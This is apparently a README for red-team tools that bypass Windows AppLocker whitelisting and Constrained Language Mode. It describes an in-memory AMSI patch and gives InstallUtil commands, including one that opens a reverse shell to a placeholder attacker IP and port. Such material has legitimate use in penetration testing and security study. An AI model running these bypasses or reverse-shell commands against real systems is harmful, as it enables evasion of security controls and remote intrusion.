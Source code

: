 # Applocker Bypass


## ToC

| Application | Output | Notes |
| ----------- | ------ | ----- |
| `altBypass` | EXE | Alternate custom ps-runspace for use in evading Application whitelisting |
| `psBypass`  | EXE | For use with InstallUtil. Contains AMSI binary patch. Will start an interactive powershell session in FullLanguageMode. |

## `altBypass`
Alternate custom PS-runspace for use in evading Application whitelisting.  Will start an interactive powershell session in **FullLanguageMode** and functions better over remote shells than `psBypass`.  Combination of [superhac/InteractiveRunspace](https://github.com/superhac/OSEP/blob/main/InteractiveRunspace.cs) and [calebstewart/bypass-clm](https://github.com/calebstewart/bypass-clm) with a dynamic patch for AMSI.  

The AMSI patch works by locating `AmsiUacInitialize` and then locating the actual functions we want to patch (`AmsiScanBuffer` and `AmsiScanString`) by grabbing the 1000 bytes preceding `AmsiUacInitiliaze` and then locating the functions within them by byte array. This *avoids the issue of hardcoding the offsets* of the target functions from `AmsiUacInitialize` when the location of the functions change depending on Windows version. 

Has builtin InstallUtils bypass ability.

I have also added the reverse shell functionality as implemented in [padovah4ck/PSByPassCLM](https://github.com/padovah4ck/PSByPassCLM). You can now get PowerShell FullLanguage Mode reverse shells, but note that the process you run it from will stall until you exit the PS Session. This is because the `installUtil` program won't finish until yours does.

### Usage
To run a PS FullLanguageMode Session in your current console:
```cmd
# without installutil applocker bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U <path>\altbypass.exe
```

To get a reverse shell:
```cmd
# without bypass
altbypass.exe

# with bypass
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<ATTACKER_IP> /rport=<ATTACKER_PORT> /U <path>\altbypass.exe
```



## `psBypass`
For use with InstallUtil. Contains AMSI binary patch, but it uses harcoded offsets from `AmsiUacInitialize` of 96 bytes & 352 bytes to look for `AmsiScanBuffer` and `AmsiScanString`. Will start an interactive powershell session in FullLanguageMode.
